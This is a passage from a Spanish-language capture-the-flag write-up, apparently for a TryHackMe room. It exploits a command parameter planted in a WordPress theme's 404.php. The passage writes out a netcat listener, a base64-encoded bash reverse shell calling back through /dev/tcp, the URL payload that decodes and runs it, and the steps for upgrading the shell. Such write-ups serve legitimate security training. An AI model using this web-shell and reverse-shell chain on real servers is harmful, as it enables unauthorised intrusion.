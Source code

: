 Y por medio del parametro que posteriormente definimos (cmd) ejecutamos cualquier comando

<p align="center">
<img src="/assets/images/thm-writeup-for-business-reasons/img10.png">
</p>

Y vemos que tenemos RCE

<p align="center">
<img src="/assets/images/thm-writeup-for-business-reasons/img11.png">
</p>

Nos ponemos en escucha, en mi caso en el puerto 443, con netcat para recibir una conección

```bash
~$> nc -nlvp 443
listening on [any] 443 ...
```
Tuve algunos problemas al intentar entablar una reverse shell, pero luego de probar de varias maneras, la que me sirvió fue esta:

```bash
~$> echo "/bin/bash -c 'bash -i >& /dev/tcp/[TU_IP]/443 0>&1'" | base64
```
El output del anterior comando lo ponemos en la url

```bash
http://[IP]/wp-content/themes/twentyseventeen/404.php?cmd=echo "[OUTPUT_DEL_COMANDO_ANTERIOR]" | base64 -d | bash
```
<p align="center">
<img src="/assets/images/thm-writeup-for-business-reasons/img12.png">
</p>

Y vemos que conseguimos la shell

```bash
connect to [10.9.242.217] from (UNKNOWN) [10.10.95.90] 46454
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@3d56c33f6dd7:/var/www/html/wp-content/themes/twentyseventeen$
```
Antes de seguir upgradeamos la shell para obtener una tty full interactiva (esto nos permitira hacer ctrl_c, etc)

```bash
www-data@3d56c33f6dd7:/var/www/html/wp-content/themes/twentyseventeen$ script /dev/null -c bash
Script started, file is /dev/null
www-data@3d56c33f6dd7:/var/www/html/wp-content/themes/twentyseventeen$ ^Z
zsh: suspended  nc -nlvp 443
```
```bash
~$> stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```
